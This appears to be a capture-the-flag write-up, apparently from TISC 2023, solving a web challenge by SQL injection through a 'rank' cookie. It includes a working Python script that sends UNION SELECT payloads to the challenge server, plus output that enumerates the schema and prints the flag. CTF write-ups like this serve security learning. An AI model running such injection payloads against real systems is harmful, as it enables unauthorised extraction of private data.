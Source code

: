 At first glance, this looks like an SQL injection in the `First name` or `Last name` fields, but trying out various suspicious characters didn't seem to do anything too strange, other than returning no results.

However, after taking a peek at the cookies on the page, I noticed one named `rank` with value `0`. I tried a few things:
- Changing this to a different number returned all entries with rank less than or equal to that number. Setting this above 10 makes no difference, since the highest rank in the table seems to be 9. None of the entries were very interesting, though.
- Setting this to a non-number, like `a`, seemed to cause an internal server error - even the input text fields disappeared from the server's response.

Suspecting I could try to inject into this field instead, I tried setting `rank` to `(SELECT 1)`, and sure enough, all entries with rank less than or equal to 1 appeared.

We could use a UNION SELECT query to try and exfiltrate strings into the table. As such, I wrote a small python script to help me with this:

```python
import requests

c = {"PHPSESSID": "klmdnbs2bqtffpb6fmrfosvlvl", "rank": "0"}
ENDPOINT = "http://chals.tisc23.ctf.sg:51943/table.php"

def string_query(s):
    c["rank"] = f"0 UNION (SELECT 'AA', ({s}), 0, NULL)"
    r = requests.get(ENDPOINT, cookies=c)
    return r.content[639:].split(b"</td>")[0]

while True:
    print(string_query(input("> ")))
```

Let's test it out:

```
> 'hi'
b'hi'
> SELECT database()
b'palindrome'
> SELECT table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' LIMIT 1
b'CTF_SECRET'
> SELECT column_name FROM information_schema.columns WHERE table_name = 'CTF_SECRET' LIMIT 1
b'flag'
> SELECT flag FROM CTF_SECRET
b'TISC{Y0u_4rE_7h3_CH0s3n_0nE}'
```

Wonderful.

**Flag:** `TISC{Y0u_4rE_7h3_CH0s3n_0nE}`

>Afternote: I felt like this challenge was far, far, far too easy for a level 6; while this is a bit disappointing, it's more of a deal because this is an optional challenge that only those who cleared the A route would be able to capitalise on.
